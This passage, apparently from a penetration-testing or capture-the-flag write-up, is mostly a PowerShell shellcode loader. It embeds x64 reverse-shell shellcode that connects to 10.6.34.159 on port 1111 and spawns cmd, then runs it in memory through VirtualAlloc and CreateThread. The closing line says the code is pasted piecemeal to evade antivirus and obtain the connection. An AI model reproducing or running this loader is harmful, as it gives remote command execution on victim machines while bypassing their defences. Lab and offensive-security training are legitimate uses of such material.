 ```c#
}
"@
Add-Type $CrtThread 


[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x4,0x57,0xa,0x6,0x22,0x9f,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x2,0x0,0x0,0x49,0xb8,0x63,0x6d,0x64,0x0,0x0,0x0,0x0,0x0,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0xd,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x1,0x1,0x48,0x8d,0x44,0x24,0x18,0xc6,0x0,0x68,0x48,0x89,0xe6,0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0xe,0x41,0xba,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x59,0x41,0x89,0xda,0xff,0xd5
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

We have to copy it step by step in order to avoid the AV, let's paste it and get the connection:
